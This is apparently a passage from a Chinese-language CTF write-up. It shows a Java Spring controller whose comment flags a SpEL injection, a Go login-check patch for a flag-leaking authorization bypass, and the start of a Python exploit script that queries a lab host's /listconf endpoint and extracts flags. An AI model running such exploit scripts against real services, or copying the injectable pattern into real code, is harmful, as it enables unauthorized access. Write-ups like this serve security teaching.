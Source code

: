 ```java
    @RequestMapping("/myProfile")
    public String myProfilePage(HttpSession session,@ModelAttribute("message") String message) {
        Integer first = (Integer) session.getAttribute("first");
        if(first!=null&&first==0){
            session.setAttribute("message",Canstants.fillTheProfileFirst);
            return "noProfile";
        }else if(first==1){
            Integer userid = (Integer) session.getAttribute("userId");
            Profile profile = profileDao.findProfileByUserId(userid);
            String template = profileView(profile);//这个函数存在spel注入
            session.setAttribute("Template", template);
            session.setAttribute("profile", profile);
            session.setAttribute("message", message);
            return "profile_view";
        }else if(first==2){
            return "excel";
        }else {
            session.setAttribute("message",Canstants.authFail);
            return "error";
        }
    }
```

[源码](https://momomoxiaoxi.com/img/post/TSCTF/web1.zip)





## Web2

这是一个go语言web题。

主要有三块漏洞点：

### 越权泄漏flag

me页面，article的各种功能页面都会泄漏flag。

需要加一个登陆验证，类似这样:

```go
	if(this.Data["IsAdmin"])!=true{
		this.Redirect("/login", 302)
	}
```

在28088端口，管理员页面也会有一个flag，但是那个flag只会泄漏一轮。

exp如下：

```python

def filter_flag(string):
    p = re.compile(r'TSCTF{[0-9a-z\-]{32}}')
    # p = re.compile(r'hctf\{.*\}')
    r = p.findall(string)
    print r
    return r

def get_flag1(host="http://172.16.10.16:28088"):
    paramsGet = {"command":"conf"}
    headers = {"Cache-Control":"max-age=0","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36","Referer":"http://172.16.10.16:28088/listconf?command=conf","Connection":"close","Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8"}
    response = session.get(host+"/listconf", params=paramsGet, headers=headers)
```
